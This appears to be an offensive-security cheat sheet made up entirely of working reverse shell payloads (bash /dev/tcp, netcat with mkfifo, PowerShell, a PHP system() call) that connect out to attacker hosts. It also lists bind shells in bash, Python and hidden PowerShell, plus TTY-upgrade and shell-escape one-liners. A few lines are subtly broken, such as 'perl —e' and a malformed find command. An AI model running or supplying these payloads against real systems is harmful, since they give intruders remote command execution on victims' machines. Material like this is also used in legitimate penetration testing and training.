 ```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

More reverse shell: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


# Bind Shell Command

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```


# Upgrading TTY

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Other commands:

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `/bin/sh -i`
* `perl —e 'exec "/bin/sh";'`
* `ruby: exec "/bin/sh"`
* `awk 'BEGIN {system("/bin/sh")}'`
* `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
* `find . -exec /bin/sh \; -quit`
* `vim -c ':!/bin/sh'`

